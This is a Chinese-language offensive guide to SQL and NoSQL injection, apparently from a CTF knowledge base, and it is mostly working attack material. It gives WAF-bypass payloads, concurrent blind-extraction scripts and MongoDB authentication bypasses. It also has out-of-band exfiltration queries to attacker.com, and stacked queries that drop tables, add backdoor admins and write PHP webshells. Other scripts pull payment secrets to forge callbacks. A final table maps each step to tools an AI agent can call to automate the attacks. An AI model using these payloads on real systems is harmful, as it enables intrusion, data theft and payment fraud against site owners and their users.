

# SQLi & NoSQLi (数据库注入高阶实战)

数据库注入是 Web 对抗中的经典主线，但在 CTF 和现代 Web 对抗中，我们通常需要面对**过滤器/WAF**、**无回显盲注**、**业务账本错位**以及 **NoSQL（如 MongoDB）** 架构。本指南侧重于高阶利用与 Bypass 策略，并把 SQLi 直接接到支付、订单、权益、配置和后台入口。

---

## 0. 注入到业务账本的路线图

先不要急着 `UNION SELECT database()`。拿到一个注入点后，先判断它落在哪张表、能不能触达业务状态。如果目标是支付类题，最短路径通常不是拖完整库，而是定位 `orders/payments/entitlements/wallet/coupons` 这几张表的字段关系。

| 入口信号 | 第一层目标 | 进阶目标 | 命中标志 |
|---|---|---|---|
| URL 参数、GraphQL 参数、搜索框报 SQL 错 | DBMS / 当前库 / 表名 | `orders`, `payments`, `users`, `entitlements` | 表名、列名、订单状态字段可枚举 |
| 支付回调字段参与查询 | `out_trade_no`, `transaction_id` | 回调绑定任意订单或重复流水 | pending → paid、权益到账 |
| 优惠券/卡密/邀请码查询 | `coupons`, `cdkeys`, `redeem_logs` | 读未使用码、改 used 状态、重复兑换 | 卡密/优惠券/flag 出现 |
| 盲注只给真假/时间 | 当前用户、订单号、余额 | 二分提取关键字段，不拖大表 | 稳定前缀推进、ledger diff |
| NoSQL 登录/筛选 | 用户对象、订单对象 | `$regex` 提取 token / role / order_id | 登录态、订单详情、下载链接 |



### 0.1 支付账本字段优先级

| 优先级 | 字段/表 | 为什么先打 |
|---|---|---|
| 1 | `orders(id,out_trade_no,user_id,status,amount,currency)` | 定位订单归属和金额源 |
| 2 | `payments(order_id,transaction_id,paid_amount,provider,status)` | 找回调和幂等键 |
| 3 | `entitlements(user_id,order_id,sku,vip_until,download_key)` | 证明权益是否到账 |
| 4 | `wallet_logs/coupon_logs/refund_logs` | 找余额、优惠和退款分叉 |
| 5 | `settings/config/options` | 找支付密钥、JWT secret、后台开关 |

### 0.2 最小账本映射脚本

```python
# ledger_schema_mapper.py — SQLi 结果落到支付账本
import json
import re
from collections import defaultdict

TABLE_HINTS = {
    "order": re.compile(r"order|trade|invoice|cart", re.I),
    "payment": re.compile(r"pay|payment|transaction|notify|callback", re.I),
    "entitlement": re.compile(r"vip|member|license|download|cdkey|card|quota|credit", re.I),
    "wallet": re.compile(r"wallet|balance|coin|point|coupon|refund", re.I),
    "config": re.compile(r"config|setting|option|secret|key|token", re.I),
}

def rank_tables(names):
    bucket = defaultdict(list)
    for name in names:
        for kind, rx in TABLE_HINTS.items():
            if rx.search(name):
                bucket[kind].append(name)
    return dict(bucket)

def next_columns(table):
    probes = ["id", "user_id", "order_id", "out_trade_no", "status",
              "amount", "total_fee", "paid_amount", "transaction_id",
              "sign", "secret", "download_key", "vip_until"]
    return [f"{table}.{c}" for c in probes]

if __name__ == "__main__":
    tables = ["users", "orders", "payments", "payment_notify", "entitlements", "system_config"]
    ranked = rank_tables(tables)
    print(json.dumps(ranked, ensure_ascii=False, indent=2))
    for group in ranked.values():
        for t in group:
            print(t, "=>", next_columns(t))
```

## 1. SQL 注入高级 Bypass 技巧

在面临 WAF 过滤时，常规的 `UNION SELECT` 会被直接拦截，必须采用变形与特定数据库特性绕过。

### A. 关键字过滤绕过
*   **双写绕过**（若过滤器只进行一次正则空替换）：
    `UNIunionON SELselectECT` -> 替换掉内部的小写后，外侧重新拼接成 `UNION SELECT`。
*   **大小写变种与混淆**：
    在某些配置不当的旧 WAF 中适用：`UnIoN SeLeCt`。
*   **科学计数法与特殊数值绕过**（针对数字型注入检测）：
    使用 `1e0` 代替 `1`，或 `1.0`，`1.0e0`。
*   **注释符替代空格**：
    利用多行注释 `/**/` 或是 `%09`, `%0a`, `%0d`, `%a0` (在不同操作系统/容器下能解析为空格) 替代被 WAF 过滤的空格。
    `SELECT/**/password/**/FROM/**/users`

### B. 符号过滤绕过
*   **逗号过滤绕过**：
    *   在 `LIMIT` 中：`LIMIT 1 OFFSET 0` 替代 `LIMIT 0,1`。
    *   在 `SUBSTR` 或 `MID` 中：`SUBSTR(password FROM 1 FOR 1)` 替代 `SUBSTR(password, 1, 1)`。
    *   在 `join` 结构中利用 `UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b` 替代常规多列。
*   **等号过滤绕过**：
    使用 `LIKE`、`REGEXP`、`IN`、`>`、`<` 或 `IS NOT NULL` 替代 `=`。
    `WHERE username LIKE 'admin'`

### C. 宽字节注入 (Wide Byte Injection)
当后端使用 `addslashes` 或魔术引号，对我们的 `'` 自动转义为 `\'`（即添加 `%5c`）：
*   **原理**：如果数据库使用 `GBK` 或类似的多字节编码，我们输入 `%df%27`。
*   **过程**：转义后变为 `%df%5c%27`。而在 GBK 编码中，`%df%5c` 会被系统识别为一个宽汉字（“運”），从而成功把转义符 `%5c` 吃掉，使单引号 `%27` 逃逸闭合。

---

## 2. 无回显盲注（Blind SQLi）并发爆破

对于布尔盲注 (Boolean-based) 或时间盲注 (Time-based)，单线程爆破速度慢且极易超时。本指南建议在 `scripts/` 下编写 Python 盲注脚本时，使用多线程提速。

### Oracle 选择矩阵

| 信号 | Boolean oracle | Time oracle | 推荐打法 |
|---|---|---|---|
| 页面长度稳定 | 响应长度 / hash | 不需要 | 二分 ASCII |
| 页面有动态广告/时间 | DOM marker / JSON 字段 | 备用 | 固定字段 diff |
| 全部无回显 | 无 | `sleep/pg_sleep/WAITFOR` | baseline p95 + 投票 |
| WAF 拦函数名 | `LIKE/REGEXP/BETWEEN` | heavy query | 函数等价替换 |
| GraphQL/API 包 JSON | status + JSON path | header timing | 批量 alias/变量 |

```python
# blind_oracle_picker.py — 统一真假/快慢判定
import hashlib
import statistics
import time
import requests

def resp_fp(r):
    body = r.text[:4096]
    return {
        "status": r.status_code,
        "len": len(r.text),
        "hash": hashlib.sha256(body.encode(errors="ignore")).hexdigest()[:12],
        "jsonish": body.strip().startswith(("{", "[")),
    }

def compare_pair(url, param, true_payload, false_payload):
    s = requests.Session()
    rt = s.get(url, params={param: true_payload}, timeout=8)
    rf = s.get(url, params={param: false_payload}, timeout=8)
    ft, ff = resp_fp(rt), resp_fp(rf)
    return {
        "true": ft,
        "false": ff,
        "usable": ft["status"] != ff["status"] or abs(ft["len"] - ff["len"]) > 80 or ft["hash"] != ff["hash"],
    }

def timed_vote(url, param, payload, samples=5):
    times = []
    for _ in range(samples):
        t0 = time.perf_counter()
        requests.get(url, params={param: payload}, timeout=12)
        times.append(time.perf_counter() - t0)
    return statistics.median(times), times
```

### 二分法并发爆破核心代码
```python
import concurrent.futures
import requests

URL = "http://target-domain/api.php?id="
# 布尔盲注判断：当响应中包含 "welcome" 时为真

def check_char_at_pos(pos, mid):
    # 使用 LIMIT FROM 避开逗号，用 LIKE 避开等号
    payload = f"1 AND ASCII(SUBSTR((SELECT flag FROM flags) FROM {pos} FOR 1)) > {mid}"
    resp = requests.get(URL + payload)
    return "welcome" in resp.text

def get_char_for_pos(pos):
    low, high = 32, 126
    while low <= high:
        mid = (low + high) // 2
        if check_char_at_pos(pos, mid):
            low = mid + 1
        else:
            high = mid - 1
    return chr(low)

# 并发获取 flag (假设长度为 40)
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    results = executor.map(get_char_for_pos, range(1, 41))
    flag = "".join(results)
    print(f"Flag extracted: {flag}")
```

---

## 3. NoSQL 注入 (MongoDB 利用)

MongoDB 接受 JSON 或 Query-string 类型的对象查询，这会导致类似 SQLi 的逻辑注入。

### A. 逻辑绕过 (Authentication Bypass)
如果登录接口的接收字段未被过滤：
*   **Payload (JSON)**：
    ```json
    {
      "username": {"$ne": "guest"},
      "password": {"$gt": ""}
    }
    ```
    `$ne` (Not Equal) 和 `$gt` (Greater Than) 会导致 MongoDB 查询条件“用户名不等于 guest 且密码长度大于空”恒成立，从而实现无密码登录。

### B. 正则匹配盲注 (Data Extraction)
利用 `$regex` 魔术操作符逐步爆破数据库字段值：
*   **探测 Payload**：
    ```json
    {
      "username": "admin",
      "password": {"$regex": "^f"}
    }
    ```
    如果服务器返回登录成功，说明 admin 的密码以 `f` 开头。可通过脚本循环 `^fa`, `^fb`... 递归提取出完整的密码。
*   **防范注意**：在正则爆破时，如果密码中包含 `.`, `*`, `+`, `?` 等正则控制字符，记得在发包前使用 `re.escape()` 或是字符转义处理。


---

## 4. Out-of-Band SQLi (OOB) — 无回显时数据外带

```sql
-- ============ MySQL ============
-- 需要 secure_file_priv 为空
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT database()),'.attacker.com\\a'));
SELECT LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 0,1),'.attacker.com\\a'));

-- ============ PostgreSQL ============
DROP TABLE IF EXISTS oob; CREATE TABLE oob(t TEXT);
COPY oob FROM PROGRAM 'nslookup $(whoami).attacker.com';

-- ============ MSSQL ============
EXEC master.dbo.xp_dirtree '\\\\attacker.com\\share';
DECLARE @a VARCHAR(8000); SELECT @a=DB_NAME();
EXEC master.dbo.xp_dirtree '\\\\'+@a+'.attacker.com\\';

-- ============ Oracle ============
SELECT UTL_HTTP.REQUEST('http://attacker.com/'||(SELECT banner FROM v$version WHERE ROWNUM=1)) FROM DUAL;
SELECT UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE ROWNUM=1)||'.attacker.com') FROM DUAL;
```

```python
# OOB Listener — 接收 DNS/HTTP callback
# 启动: python3 oob_listener.py
from http.server import HTTPServer, BaseHTTPRequestHandler
import re

class OOBHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        # 从 path 提取数据
        match = re.search(r'/([a-f0-9]{32,})', self.path)
        if match: print(f"[+] Data: {match.group(1)}")
        self.send_response(204)
    def log_message(self, *args): pass  # 静默

HTTPServer(('0.0.0.0', 80), OOBHandler).serve_forever()
```

---

## 5. Second-Order SQLi (二次注入)

```python
# 攻击模型:
# Step 1: payload 先存入数据库（注册用户名/email/个人简介）
# Step 2: 后续业务用这个脏数据拼接 SQL

SECOND_ORDER_PAYLOADS = {
    "profile_name": "admin' AND 1=1 --",
    "email": "test' OR pg_sleep(5) OR '1'='1",
    "comment": "x'; WAITFOR DELAY '00:00:05'; --",
}

# 探测思路:
# 1. 在所有文本输入点植入各数据库的 sleep payload
# 2. 观察哪些后续页面加载变慢
# 3. 变慢的页面 → 第二次查询用到了你的 dirty data
```

---

## 6. Stacked Queries (多语句)

```sql
'; DROP TABLE users;--
'; INSERT INTO users VALUES('backdoor','hash');--
'; CREATE TABLE shell(data TEXT); LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE shell;--
'; UPDATE users SET role='admin' WHERE username='attacker';--
```

---

## 7. DB 特有技巧

```sql
-- PostgreSQL
CREATE TABLE tmp(t TEXT); COPY tmp FROM '/etc/passwd'; SELECT * FROM tmp;
COPY (SELECT '<?php system($_GET[c]);?>') TO '/var/www/shell.php';
SELECT dblink_connect('host=127.0.0.1 port=6379');  -- SSRF

-- SQLite
SELECT sql FROM sqlite_master WHERE type='table';  -- 无 information_schema
ATTACH DATABASE '/var/www/shell.php' AS s; CREATE TABLE s.x(t TEXT); INSERT INTO s.x VALUES('<?php ?>');

-- Oracle
SELECT extractvalue(xmltype('<!--'),'/') FROM dual;  -- 报错注出
SELECT CASE WHEN (1=1) THEN DBMS_LOCK.SLEEP(5) END FROM DUAL;  -- 时间盲注
```

---

## 8. NoSQL 增强：操作符全集 + 嵌套绕过

```python
# MongoDB 完整操作符字典
MONGO_OPS = {
    "$ne": "", "$gt": "", "$gte": "", "$lt": "", "$lte": "",
    "$in": ["admin"], "$nin": ["guest"],
    "$regex": "^a",            # 逐字符爆破
    "$where": "sleep(5000)",   # JS 执行 (旧版)
    "$exists": True,           # 探测字段
    "$type": 2,                # 字段类型 (2=String)
}

# 嵌套绕过 (过滤器只检查顶层 key)
{"user": {"$gt": ""}, "password": {"$gt": ""}}

# $where JS 注入
{"$where": "this.role=='admin'"}
{"$where": "this.constructor.constructor('return process')()"}
```

---

## 9. WAF Bypass 全表

```python
# 空格替代
["/**/", "%09", "%0a", "%0d", "%0b", "%0c", "%a0", "%00"]

# 关键字混淆
SELECT → SeLeCt, SEL/**/ECT, %53%45%4c%45%43%54, SE{LECT (MySQL)

# 等号替代
= → LIKE, REGEXP, BETWEEN, IN, >, <, IS NOT NULL, SOUNDS LIKE

# 注释
-- , #, /**/, ;%00, --%20%2b

# 逗号替代
SUBSTR(col FROM 1 FOR 1) 替代 SUBSTR(col,1,1)
LIMIT 1 OFFSET 0         替代 LIMIT 0,1
UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b  替代 UNION SELECT 1,2
```

### Cloud WAF 专项绕过

```python
# Cloudflare: 通常不拦纯 SQL 关键字组合
# 绕过关键: 避开 SQL 注入检测特征 (function(args))
# Cloudflare 检查: sleep(, benchmark(, substr(, ascii(
# 替代品:
#   SLEEP(N)       → GET_LOCK('a', N), 重复计算 BOMB()
#   SUBSTR(a,1,1)  → MID(a,1,1) / LEFT(a,1) / RIGHT(a,1)
#   ASCII()        → ORD()

# AWS WAF: SQL injection rule 检查关键词排列
# 绕过: 内联注释 /*!50000SELECT*/ (MySQL版本注释)

# ModSecurity: 
# 绕过: 分段传输 encoding 差异
#   Content-Type: multipart/form-data + charset=ibm500 (EBCDIC编码)
```

```bash
# sqlmap WAF 绕过 — tamper 链
sqlmap -u "..." --tamper="space2comment,charencode,percentage,randomcase,equaltolike" --technique=BEU --dbs
```

---

## 10. 攻击链

```
SQLi →读用户表 → 管理员密码 hash → crack → 管理后台登录
SQLi → 读配置文件 (LOAD_FILE) → DB 密码 → 内网横向
SQLi → UDF/OUTFILE → 写 webshell → RCE
SQLi → stacked query → INSERT 后门管理员 → 持久化
SQLi → OOB DNS → 逐字节外带 flag → 无回显完成
NoSQLi $regex → 逐字符爆破 JWT secret → JWT 伪造 → Admin API
SQLi → INFORMATION_SCHEMA → 发现其他应用 DB → 跨库攻击
```

## 11. Content-Type Smuggling for SQLi (WAFFLED)

```python
# WAFFLED-style: 修改 Content-Type → WAF 按 form 解析 (低优先级检查)
# → 但后端按 JSON/XML 解析 → 注入通过

SMUGGLE_HEADERS = {
    "Content-Type": [
        "application/json; charset=utf-8",     # 标准 JSON
        "application/x-www-form-urlencoded",    # WAF form check
        "multipart/form-data; boundary=x",      # WAF 认为 multipart
        "text/plain; charset=utf-8",            # WAF 忽略
        "application/xml",                      # 后端可能解析为 JSON
    ]
}

def content_type_smuggling_sqli(target: str, sqli_payload: str):
    """测试不同 Content-Type 下的 SQLi 是否被 WAF 拦截"""
    for ct in SMUGGLE_HEADERS["Content-Type"]:
        r = requests.post(target, data=sqli_payload, headers={"Content-Type": ct})
        if r.status_code not in (403, 406):
            print(f"  {ct}: {r.status_code}")
```

## 12. Polyglot SQLi Payloads

```sql
-- 一个 payload, 在多种 SQL 方言中都有效
-- MySQL + PostgreSQL + MSSQL 通用:
1'/**/OR/**/1=1/**/--
1' UNION SELECT 1,2,3 FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c --
0'XOR(if(now()=sysdate(),sleep(5),0))XOR'  -- MySQL SLEEP + 其他 DB 不触发目标函数

-- HTML + SQL polyglot (通过输入同时触发 XSS 和 SQLi):
'>' OR '1'='1
```

## 13. Session Splicing (绕过异常评分 WAF)

```python
# 把攻击 payload 拆到多个请求中 → WAF 看不到完整攻击
# 请求 1: 1' UNION SEL
# 请求 2: ECT 1,2,3 FR
# 请求 3: OM users --
# → 某些后端拼接请求 → 形成完整注入

def session_splice(requests_parts: list[str]):
    """用不同 session 分段发送 SQL 关键字"""
    for part in requests_parts:
        # 每个 part 用不同 session → WAF 独立评分 → 都低分放过
        session = requests.Session()
        session.post(target, data={"q": part})
```

## 14. 支付 / 订单 SQLi 专项打法

支付题里的 SQLi 价值不只在“读 flag 表”。更常见的是从一个业务字段进入，拿到订单状态、回调密钥、卡密库存或权益表，再和 `payment-logic.md`、`payment-callback-async.md` 串起来。

### 14.1 表名与列名路由

| DBMS | 表枚举 | 列枚举 | 支付关键词 |
|---|---|---|---|
| MySQL/MariaDB | `information_schema.tables` | `information_schema.columns` | `order`, `trade`, `pay`, `notify`, `coupon`, `card`, `vip` |
| PostgreSQL | `pg_catalog.pg_tables` | `information_schema.columns` | `payment`, `invoice`, `entitlement`, `wallet` |
| SQLite | `sqlite_master` | `pragma_table_info()` | `orders`, `config`, `cdkeys`, `redeem_logs` |
| MSSQL | `sys.tables` | `sys.columns` | `transactions`, `licenses`, `settlements` |

```python
# payment_sqli_probe_plan.py — 根据 DBMS 生成支付表枚举查询
PAYMENT_WORDS = ["order", "trade", "pay", "payment", "notify", "callback",
                 "invoice", "coupon", "card", "cdkey", "vip", "wallet",
                 "balance", "refund", "entitlement", "license"]

def like_clause(col, words, dbms="mysql"):
    joiner = " OR "
    if dbms in {"mysql", "postgres", "sqlite"}:
        return joiner.join(f"LOWER({col}) LIKE '%{w}%'" for w in words)
    if dbms == "mssql":
        return joiner.join(f"LOWER({col}) LIKE '%{w}%'" for w in words)
    return joiner.join(f"{col} LIKE '%{w}%'" for w in words)

def table_queries(dbms):
    where = like_clause("table_name", PAYMENT_WORDS, dbms)
    return {
        "mysql": f"SELECT table_schema,table_name FROM information_schema.tables WHERE {where}",
        "postgres": f"SELECT table_schema,table_name FROM information_schema.tables WHERE {where}",
        "sqlite": "SELECT name FROM sqlite_master WHERE type='table' AND (" + like_clause("name", PAYMENT_WORDS, dbms) + ")",
        "mssql": f"SELECT name FROM sys.tables WHERE {like_clause('name', PAYMENT_WORDS, dbms)}",
    }[dbms]

for dbms in ["mysql", "postgres", "sqlite", "mssql"]:
    print(dbms, "=>", table_queries(dbms))
```

### 14.2 盲注只抽“能推动状态”的字段

无回显场景不要拖全表。支付链通常只需要这些字段：

```text
orders:        id, out_trade_no, user_id, amount, currency, status
payments:      order_id, transaction_id, provider, paid_amount, status, raw_notify
entitlements:  user_id, order_id, sku, license_key/download_key, vip_until
settings:      pay_secret, webhook_secret, jwt_secret, app_key
```

```python
# blind_payment_field_extract.py — 针对单字段二分，输出可直接接支付链的 JSON
import json
import string
import requests

BASE = "https://target"
PARAM = "id"
S = requests.Session()
ALPHABET = string.ascii_letters + string.digits + "_-{}@.:"

def oracle(payload):
    r = S.get(BASE + "/api/order", params={PARAM: payload}, timeout=10)
    return "order not found" not in r.text.lower() and r.status_code != 500

def char_at(expr, pos):
    for ch in ALPHABET:
        payload = f"1 AND SUBSTR(({expr}) FROM {pos} FOR 1)='{ch}'"
        if oracle(payload):
            return ch
    return ""

def extract(expr, max_len=64):
    out = ""
    for pos in range(1, max_len + 1):
        c = char_at(expr, pos)
        if not c:
            break
        out += c
        print(out)
    return out

target = "SELECT out_trade_no FROM orders WHERE user_id=(SELECT id FROM users WHERE username='admin') LIMIT 1"
value = extract(target)
print(json.dumps({"field": "orders.out_trade_no", "value": value}, ensure_ascii=False))
```

### 14.3 SQLi 转支付链决策表

| 已抽到的字段 | 立即尝试 | 下一跳文档 |
|---|---|---|
| `out_trade_no/order_id` | 回调绑定、订单 IDOR、发货接口 | `../12-payment/payment-logic.md` |
| `pay_secret/webhook_secret` | 生成合法签名回调 | `../12-payment/payment-callback-async.md` |
| `transaction_id/notify_id` | 重放、大小写/空白变体、跨订单复用 | `../12-payment/payment-callback-async.md` |
| `license_key/download_key` | 直接领取数字商品、枚举邻近 key | `../12-payment/payment-digital-goods.md` |
| `coupon_code/balance` | 优惠券叠加、余额负数、退款残留 | `../12-payment/payment-bypass.md` |
| `admin password hash/JWT secret` | 登录后台、签 token、触发管理发货 | `../02-auth/jwt/03-weak-key-bruteforce.md` |

### 14.4 二阶 SQLi 打支付回调

二阶注入在支付里特别常见：订单备注、发票抬头、收货信息、兑换码备注先入库，稍后被对账、邮件、回调日志或后台查询再次拼 SQL。

```python
# second_order_payment_sqli.py — 写入订单字段，触发后台/回调二次查询
import time
import requests

BASE = "https://target"
S = requests.Session()

SLEEP_PAYLOADS = [
    "x' OR SLEEP(4)-- ",
    "x'; SELECT pg_sleep(4)--",
    "x'; WAITFOR DELAY '00:00:04'--",
]

SINKS = [
    "/api/order/create",
    "/api/invoice/create",
    "/api/coupon/redeem",
]

TRIGGERS = [
    "/api/orders/{order_id}",
    "/api/payment/notify",
    "/admin/orders/search?q={marker}",
    "/api/invoice/export?order_id={order_id}",
]

def post_marker(path, marker):
    r = S.post(BASE + path, json={
        "product_id": 1,
        "amount": "0.01",
        "remark": marker,
        "invoice_title": marker,
        "coupon_code": marker,
    }, timeout=10)
    try:
        return r.json().get("order_id") or r.json().get("data", {}).get("order_id")
    except Exception:
        return None

for payload in SLEEP_PAYLOADS:
    order_id = post_marker("/api/order/create", payload)
    for tpl in TRIGGERS:
        path = tpl.format(order_id=order_id or "1", marker="x")
        t0 = time.perf_counter()
        r = S.get(BASE + path, timeout=12) if "notify" not in path else S.post(BASE + path, json={"order_id": order_id}, timeout=12)
        dt = time.perf_counter() - t0
        print(payload[:20], path, r.status_code, f"{dt:.2f}s")
```

### 14.5 成功 / 失败样本

成功样本：

- 盲注稳定抽出 `orders.out_trade_no`，随后用同一订单号触发回调状态差异。
- 抽出 `pay_secret` 后生成签名，notify 响应从 `invalid sign` 变成 `success`，订单/权益前后状态变化。
- 二阶 payload 写入订单备注后，后台搜索或发票导出出现可重复延迟/报错，确认二次拼接点。
- NoSQL `$regex` 抽出管理员 `api_key`，再调用订单管理接口发货。

失败样本：

- 注入只能读公开搜索索引，无法触达业务库。
- 表名可枚举但订单/权益字段全部按当前用户过滤。
- pay secret 存在但签名规范化不同，回调仍拒绝。
- 时间盲注噪声大于 sleep 差值，无法稳定判定。

## Evidence

- `oracle_pairs.json`: True/False payload、状态码、长度、hash、marker 差异。
- `timing_samples.csv`: payload、样本数、中位数、p95、baseline、判定阈值。
- `tamper_matrix.csv`: 原始 payload、变体、变形层、WAF 响应、DB 执行信号。
- `oob_logs.jsonl`: DNS/HTTP label、chunk 序号、还原后的字段值。
- `second_order_flow.md`: 写入请求、落库形态、触发请求、报错/延迟/数据输出。
- `payment_ledger_map.json`: 表名、列名、订单号、支付流水、权益字段、下一跳路径。
- `callback_from_sqli.json`: 由 SQLi 抽出的密钥/订单号生成的回调请求与状态 diff。
- 成功样本: 可重复抽出 DBMS 指纹、表/列/flag；或 NoSQL 正则稳定推进前缀。
- 失败样本: 真假响应无稳定差异、时间噪声覆盖 delay、OOB 无回连、二阶触发点不使用写入字段。

## MCP 工具映射

AI Agent 可调用以下 MCP 工具自动完成或加速上述攻击步骤：

| 攻击步骤 | MCP 工具 | 说明 |
|---------|---------|------|
| 探测注入点 | `http_probe` | HTTP GET 探测参数 |
| SQL 注入自动化 | `run_ctf_tool sqlmap --args "--batch --dbs"` | 自动检测+利用 SQLi |
| 按信号查技术 | `kb_router` | 搜索 sqli 相关技术文件 |
| 支付链路路由 | `kb_router` | SQLi 抽到订单/密钥/权益字段后跳转支付文档 |

